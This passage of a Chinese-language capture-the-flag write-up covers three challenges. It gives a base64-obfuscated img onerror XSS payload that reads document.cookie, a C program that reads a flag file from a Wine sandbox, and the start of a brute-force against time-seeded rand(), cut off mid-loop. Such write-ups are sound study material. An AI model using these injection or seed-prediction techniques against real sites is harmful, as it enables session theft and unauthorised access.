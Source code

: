转为 base64，使用 img onerror 注入

```javascript
123:<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3MuaW5uZXJIVE1MID0gYGRvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoJyNzY29yZScpLmlubmVySFRNTCA9IGRvY3VtZW50LmNvb2tpZSBg'))>
```

再整体 base64 编码放到 url 中提交，就可以看 flag 了~


# 杯窗鹅影

## flag1

直接写了一个读文件内容的程序。 没啥问题，甚至可以改下前面安全的在线评测的代码就可以直接复用。 第二问没试出来。

```c
#include <stdio.h>
#include <stdlib.h>
int main() {
    char flag[128];
    FILE *fp = fopen("./flag1", "r");
    int idx = 0;
    while ((flag[idx++] = fgetc(fp))!= EOF) {}
    flag[idx-1] = '\0';
    printf("%s\n", flag);
    fclose(fp);
    return 0;
}
```

# 蒙特卡罗轮盘赌

考察伪随机数种子选取的安全性问题。 

只要我们能构造出来一样的种子，就可以获得一样的随机数。 所以保证时间基本一致的情况下。枚举时间差和 `clock()` 即可。 比较坑的是 macOS 上的生成算法可能和其他不太一样。所以前面一直没跑出来。还以为是 `clock()` 范围有问题。 后面开了一个 docker 环境就跑出来了。

```c
#include <math.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int equals(double a, double b) {
    return fabs(a - b) <= 1e-7;
}

double rand01() {
    return (double)rand() / RAND_MAX;
}

int main() {
    // disable buffering
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    double pi_list[5], a, b, cs, ce;
    int cnt;
    scanf("%lf%lf", &cs, &ce);
    unsigned long tm = (unsigned)time(0); 
    printf("%lu\n", tm);
    scanf("%lf%lf", &a, &b);
    for (unsigned long clk = cs; clk <= ce; clk++) {
```